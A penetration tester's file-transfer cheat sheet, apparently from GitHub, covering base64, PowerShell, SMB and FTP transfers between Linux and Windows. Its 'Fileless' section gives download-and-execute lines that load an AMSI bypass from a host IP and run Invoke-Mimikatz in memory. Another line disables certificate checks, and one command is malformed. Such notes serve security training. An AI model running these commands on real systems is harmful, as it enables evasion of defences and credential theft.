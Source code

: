 ## PowerShell
### Copying Using Base64 From Linux

Verify the MD5 hash of the target file:

```bash
garffff@garffff:~/test$ more hello.py 
print("hello world!")
gareth@gareth:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

Base64 the target file :

```bash
garffff@garffff:~/test$ cat hello.py |base64 -w 0;echo
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

In PowerShell, echo the base64 output to a location:

```bash
PS C:\users\public\downloads> [IO.File]::WriteAllBytes("C:\Users\Public\hello.py", [Convert]::FromBase64String("cHJpbnQoImhlbGxvIHdvcmxkISIp"))
```

Verify MD5 of target file:

```bash
PS C:\users\public\downloads> Get-FileHash C:\Users\Public\hello.py -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             01C0A257EDD3C2E95C25D80A4C18C5CC                                 
```

Encoding file on Windows system to copy to Linux:

```bash
PS C:\users\public\downloads> [Convert]::ToBase64String((Get-Content -path "C:\users\public\hello.py" -Encoding byte))
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

Verify MD5 hash:

```bash
PS C:\users\public\downloads> Get-FileHash "C:\users\public\hello.py" -Algorithm MD5 | select Hash

Hash
----
01C0A257EDD3C2E95C25D80A4C18C5CC
```

On Linux system:

```bash
echo 'cHJpbnQoImhlbGxvIHdvcmxkISIp' | base64 -d > hello.py
```

Verify hash:

```bash
garffff@garffff:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

### Web Downloads

Malicious files can be detected by Defender:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')

PS C:\users\public\downloads> wget 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_wget.ps1
PS C:\users\public\downloads> curl 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_curl.ps1
```

Using Invoke-WebRequest is a slower method, this can launch IE when first launched:

```bash
PS C:\users\public\downloads> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

To prevent IE from loading use the following:

```bash
PS C:\users\public\downloads> Invoke-WebRequest https://https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1/PowerView.ps1 -UseBasicParsing {| IEX}
```

When SSL/TLS certificate are not trusted (not tested):

```bash
PS C:\users\public\downloads> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```
### Web Downloads - Fileless (memory)

Need to bypass AMSI to load Malicious files into memory:

```bash
PS C:\users\public\downloads> (New-Object System.Net.WebClient).DownloadString('http://192.168.0.51/amsi.txt') | IEX
```

Then load into memory:

```bash
PS C:\users\public\downloads> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

## SMB

Create SMB server:

```bash
gareth@gareth:~/test$ sudo smbserver.py share /tmp -smb2support 
Impacket for Exegol - v0.10.1.dev1+20231106.134307.9aa93730 - Copyright 2022 Fortra - forked by ThePorgs

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Copying to Windows:

```bash
c:\Users\Public\Downloads>copy \\192.168.0.51\share\hello.py
        1 file(s) copied.
```

Using a username and password:

```
c:\Users\Public\Downloads> net use x: \\192.168.220.133\share /user:garffff password
c:\Users\Public\Downloads> copy x:\hello.py
```

## FTP

Create FTP server:

```bash
garffff@garffff:~/test$ sudo pip3 install pyftpdlib
garffff@garffff:~/test$ sudo python3 -m pyftpdlib --port 21
[I 2024-09-29 14:49:52] concurrency model: async
[I 2024-09-29 14:49:52] masquerade (NAT) address: None
[I 2024-09-29 14:49:52] passive ports: None
[I 2024-09-29 14:49:52] >>> starting FTP server on 0.0.0.0:21, pid=47842 <<<
```

Copy file:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('ftp://192.168.0.51/hello.py', 'C:\Users\Public\downloads\hello.py')
```


